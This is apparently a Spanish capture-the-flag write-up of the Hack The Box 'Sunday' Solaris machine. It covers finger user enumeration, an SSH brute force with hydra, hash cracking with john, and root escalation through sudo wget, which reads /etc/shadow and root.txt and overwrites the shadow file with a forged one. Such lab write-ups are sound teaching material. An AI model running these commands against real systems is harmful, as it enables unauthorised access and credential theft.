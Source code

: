 # Sunday ![Avatar](https://www.hackthebox.eu/storage/avatars/3a186834eba2b780dacdaadcc157d309_thumb.png)

## Initial Scan
```
79/tcp    open  finger  Sun Solaris fingerd
|_finger: No one logged on\x0D
111/tcp   open  rpcbind 2-4 (RPC #100000)
22022/tcp open  ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
60815/tcp open  unknown
61350/tcp open  unknown
```

## Enum
### Finger

Usando finger-user-enum obtenemos los siguientes usuarios
```
admin@10.10.10.76
root@10.10.10.76
service@10.10.10.76
adm@10.10.10.76
mysql@10.10.10.76
access@10.10.10.76
user@10.10.10.76
sammy@10.10.10.76
sunny@10.10.10.76
bin@10.10.10.76
```
Quitamos los default y lanzamos un ataque de fuerza bruta usando hydra, la lista quedaria

```
root
admin
adm
user
sammy
sunny
```
Toca hacer bruteforcing
```
hydra -L user.txt -P rockyou.txt ssh://10.10.10.76 -s 22022 -t 64
```

La contraseña para sunny es sunday
```
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
```
Al ir a entrar nos da el siguiente error
```
Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```

Para solventarlos cambiamos el comando de inicio de sesion en el shh:
```
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 sunny@10.10.10.76 -p 22022
```

No user.txt por ahora pero si que tenemos una carpeta de backups en /, veamos que hay en ella 

Un archivo llamado agent22 que no podemos leer y el shadow.backup

```
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```
Vamos a crackear el de sammy
```
pj@HTB:~$ john shadow.bk --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha256crypt, crypt(3) $5$ [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cooldude!        (?)
1g 0:00:00:40 DONE (202
```
Con esto entramos en sammy y leemos la user.txt

## Privesc
```
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
```
### Opcion 1 Shadow File Crack

```
sudo /usr/bin/wget -i /etc/shadow
root:$5$WVmHMduo$nI.KTRbAaUv1ZgzaGiHhpA2RNdoo3aMDgPBL25FZcoD:14146:::::::
```
Y a crackear

### Opcion 2 Wget root.txt
```
sudo /usr/bin/wget -i /root/root.txt
```

### Opcion 3 Fake Shadow

```
root:HASHPARAELPASSQUEHEMOSSACAO:14146::::::
daemon:NP:6445::::::
bin:NP:6445::::::
sys:NP:6445::::::
adm:NP:6445::::::
lp:NP:6445::::::
uucp:NP:6445::::::
nuucp:NP:6445::::::
dladm:*LK*:::::::
smmsp:NP:6445::::::
listen:*LK*:::::::
gdm:*LK*:::::::
zfssnap:NP:::::::
xvm:*LK*:6445::::::
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```
Ponemos en marcha un HTTP server en local con el i hacemos el overwrite usando wget.
